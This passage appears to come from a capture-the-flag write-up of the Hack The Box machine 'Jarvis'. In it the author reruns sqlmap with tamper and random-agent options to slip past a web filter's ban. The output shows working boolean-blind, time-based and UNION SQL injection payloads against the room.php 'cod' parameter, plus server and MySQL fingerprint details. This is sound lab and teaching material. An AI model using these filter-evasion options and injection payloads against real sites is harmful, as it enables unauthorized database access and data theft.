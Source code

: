     <img width="700" height="400" src="resources/images/banned.png">
</p>

This is the same page we found earlier on *port 64999*. Luckily for us, we can tweak some of *sqlmap* options and
try to bypasss this filter. After waiting 90 seconds to get unbanned, I tried *sqlmap* again with some additional
options:

```
$ sqlmap -u 'http://jarvis.htb/room.php?cod=1' --random-agent --level=1 --tamper=charencode

[...]
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 4622=4622

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 6252 FROM (SELECT(SLEEP(5)))MGmU)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-5166 UNION ALL SELECT NULL,NULL,CONCAT(0x7171626271,0x62596a69546a7763476f6c44644a6270664554754c675452576a5a6a47574a414b46654252455667,0x7178787071),NULL,NULL,NULL,NULL-- xxzu
---
[13:20:25] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[13:20:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[...]
```
